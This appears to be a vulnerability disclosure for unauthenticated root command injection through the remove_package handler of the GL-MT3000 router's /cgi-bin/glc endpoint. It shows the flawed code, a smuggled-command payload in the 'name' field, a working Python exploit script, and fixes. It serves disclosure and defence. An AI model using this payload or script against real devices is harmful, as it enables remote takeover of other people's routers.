


Submission Date: 2026.5.13
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated command injection vulnerability exists in the `/cgi-bin/glc` endpoint. The `plugins.so` shared object exports a `remove_package` function that extracts the `name` parameter from the JSON request body and passes it directly into `sprintf(cmd, "%s remove %s >/tmp/opkg.stdout 2>/tmp/opkg.stderr", "opkg --force-overwrite --nocase", name)` followed by `system(cmd)`. No shell quoting is applied to the package name. The only validation is a `strstr()` substring blacklist against three private package markers (`oui`, `gl-sdk`, `base-files`) and an opkg lock file check. An attacker can inject `;cmd;#` to execute arbitrary commands as root without authentication.

The reported vulnerable flow is:

```text
Unauthenticated attacker
  -> POST /cgi-bin/glc
     {"object":"plugins", "method":"remove_package",
      "args":{"name":"x;id>/tmp/poc;#"}}

  -> /www/cgi-bin/glc
       dlopen("plugins.so") → dlsym("remove_package") → handler(args)

  -> plugins.so::remove_package (0x104848)
       check_file_is_exist("/var/lock/opkg.lock")  // opkg lock gate
       name = json_string_value(json_object_get(args, "name"))

       // strstr blacklist (3 entries: "oui", "gl-sdk", "base-files")
       for (i=0; i<3; i++)
           if (strstr(name, private_packages[i])) → reject

       sprintf(cmd, "%s remove %s >/tmp/opkg.stdout 2>/tmp/opkg.stderr",
               "opkg --force-overwrite --nocase", name);
       system(cmd);  // 💣

  -> /bin/sh -c:
       opkg --force-overwrite --nocase remove x
       ;id>/tmp/poc       ← 💣 RCE
       ;#                  ← comment
```

The `remove_package` function at offset 0x104848 demonstrates the injection:



```c
// plugins.so::remove_package (0x104848)
name = json_string_value(json_object_get(args, "name"));

// Blacklist: strstr substring match — trivially bypassed
for (int i = 0; i < 3; i++) {
    if (strstr(name, private_packages[i]))
        return err;
}

// Sink: sprintf (unbounded) + system() — no quoting
sprintf(cmd, "%s remove %s >/tmp/opkg.stdout 2>/tmp/opkg.stderr",
        "opkg --force-overwrite --nocase", name);
system(cmd);     // 💣
```

**Validation bypass:**

| Check | Bypass |
|-------|--------|
| `/var/lock/opkg.lock` | Only blocks if another opkg is running — not normally the case |
| Empty name | Trivially satisfied with any non-empty string |
| `strstr(name, "oui")` | Use prefix without "oui" — `"x"` suffices |
| `strstr(name, "gl-sdk")` | Same |
| `strstr(name, "base-files")` | Same |
| `strcmp(name, "gl-tor")` | Only triggers special template, still exploitable |

The injection mechanism (no quoting needed):

```text
Normal:  name = "somepkg"
         → opkg --force-overwrite --nocase remove somepkg >...
         ✅ legitimate operation

Exploit: name = "x;id>/tmp/poc;#"
         → opkg --force-overwrite --nocase remove x
         → ;id>/tmp/poc;  ← 💣 RCE
         → #               ← comment (pipe + stdout ignored)
```

The exploitation is shown below.



```python
#!/usr/bin/env python3
import json, ssl, sys, urllib.request

TARGET = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"
CMD    = sys.argv[2] if len(sys.argv) > 2 else "id"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

req = urllib.request.Request(
    f"{TARGET}/cgi-bin/glc",
    data=json.dumps({"object":"plugins","method":"remove_package",
        "args":{"name":f"x;{CMD}>/tmp/p19 2>&1;#"}}).encode(),
    headers={"Content-Type":"application/json"}, method="POST")
print(urllib.request.urlopen(req, timeout=10, context=ctx).read().decode()[:200])
print("[+] check /tmp/p19")
```

**Fix recommendations:**

| Priority | Component | Action |
|----------|-----------|--------|
| P0 | `plugins.so` remove_package | Replace `sprintf`+`system()` with `fork()`+`execv()` for opkg |
| P0 | `plugins.so` remove_package | Validate name against `^[a-zA-Z0-9][a-zA-Z0-9._-]*$` |
| P0 | `/www/cgi-bin/glc` | Add authentication and method allowlist |
